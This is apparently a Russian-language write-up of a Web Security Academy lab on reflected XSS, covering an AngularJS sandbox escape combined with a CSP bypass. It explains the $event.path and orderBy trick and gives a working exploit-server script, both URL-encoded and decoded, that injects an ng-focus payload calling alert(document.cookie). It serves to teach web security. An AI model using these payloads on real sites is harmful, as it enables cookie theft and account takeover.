


# Reflected XSS with AngularJS sandbox escape and CSP

## Theory

<h3>Как работает обход AngularJS CSP?</h3>

Обход политики безопасности контента (CSP) работает аналогично стандартным побегам из песочницы, но обычно включает в себя некоторую HTML-инъекцию. Когда режим CSP активен в AngularJS, он по-разному анализирует выражения шаблона и избегает использования конструктора функций. Это означает, что стандартный побег из песочницы, описанный выше, больше не будет работать.

В зависимости от конкретной политики CSP будет блокировать события JavaScript. Однако AngularJS определяет свои собственные события, которые можно использовать вместо них. Внутри события AngularJS определяет специальный объект $event, который просто ссылается на объект события браузера. Вы можете использовать этот объект для выполнения обхода CSP. В Chrome в объекте $event/event есть специальное свойство path. Это свойство содержит массив объектов, которые вызывают выполнение события. Последним свойством всегда является объект окна, который мы можем использовать для выхода из песочницы. Передав этот массив фильтру orderBy, мы можем перечислить массив и использовать последний элемент (объект окна) для выполнения глобальной функции, такой как alert(). Следующий код демонстрирует это:
```
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
```

Обратите внимание, что используется функция from(), которая позволяет преобразовать объект в массив и вызвать заданную функцию (указанную во втором аргументе) для каждого элемента этого массива. В этом случае мы вызываем функцию alert(). Мы не можем вызвать функцию напрямую, потому что песочница AngularJS проанализирует код и обнаружит, что объект окна используется для вызова функции. Вместо этого использование функции from() эффективно скрывает объект окна из песочницы, позволяя нам внедрить вредоносный код.

<h3>Обход CSP с выходом из песочницы AngularJS</h3>

Один из способов скрытия объекта окна из песочницы AngularJS это — использовать функцию array.map() следующим образом:
```
[1].map(alert)
```

map() принимает функцию в качестве аргумента и вызывает ее для каждого элемента массива. Это позволит обойти песочницу, поскольку ссылка на функцию alert() используется без явной ссылки на окно. Чтобы решить лабораторную задачу, попробуйте различные способы выполнения alert() без запуска обнаружения окна AngularJS.

## Writeup

Главная страница:


Перейдем на exploit server.


В поле body поместим эксплоит. Сохраняем эксплоит и отправляем жертве. Код эксплоита:
```
<script>
location='https://0a3c00a103fb86f7c073bdf0003b0031.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

Код Экплоита без URL кодировки:
```
<script>
location='https://0a3c00a103fb86f7c073bdf0003b0031.web-security-academy.net/?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x';
</script>
```



Получаем ответ от сервера.


